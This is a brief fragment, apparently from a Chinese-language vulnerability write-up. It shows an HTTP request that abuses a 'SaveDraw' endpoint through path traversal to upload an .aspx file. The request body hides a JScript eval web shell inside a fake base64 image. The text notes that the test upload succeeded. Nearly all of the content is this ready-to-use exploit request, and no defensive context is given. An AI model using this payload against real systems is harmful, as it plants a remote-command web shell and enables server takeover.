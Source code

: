 ![](assets/1706859049-29311645e992d73aca85802d42a4249e.png)

测试上传成功

```php
POST /PW/SaveDraw?path=../../Content/img&idx=cnvdtes2827.aspx HTTP/1.1
Host: xxx
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 142

data:image/png;base64,01s34567890123456789y1234567h8901234567m91<%@ Page Language="Jscript"%><% eval(Request.Item["ant"],"unsafe"); %>///---
```

